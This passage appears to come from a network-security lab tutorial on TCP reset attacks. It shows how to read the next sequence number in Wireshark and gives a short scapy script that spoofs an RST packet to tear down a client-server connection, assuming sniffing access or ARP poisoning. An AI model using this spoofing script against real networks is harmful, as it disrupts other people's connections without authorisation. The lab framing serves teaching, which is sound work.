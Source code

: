     <img src="../assets/a3-fig-3.png" alt="Disabling Relative Sequence Numbers"/>
</p>
<p align="center">
    Fig3. Disabling Relative Sequence Numbers
</p>

Note the “**Next Sequence number**” in the “**Transmission Control Protocol**” panel (it can be seen in above screenshot). Attacker will use this sequence number for sending the next packet. 

We will use `scapy`, a python-based packet generator, for spoofing the packets. The following code will send a `RST` packet, run this from `Internal-Attacker-2`’s terminal. (You need to enter values of ”CLIENT’s IP”, ”SERVER’s IP”, ”sport”, and sequence number, these values can be obtained from Wireshark). 

Here the assumption is that the attacker has traffic sniffing access to `Corp-Switch`, or attacker is able to perform ARP poisoning attack and capture the TCP packets. Use the below code to create `reset.py`.

```py
!/usr/bin/python3
import sys
from scapy.all import *
print("sending reset packet...")

IPLayer = IP (src="CLIENT’s IP", dst = "SERVER’s IP")
TCPLayer = TCP (sport=37766, dport=80, flags="R", seq=506005543)

pkt=IPLayer/TCPLayer

ls(pkt)

send(pkt,verbose=0)
```
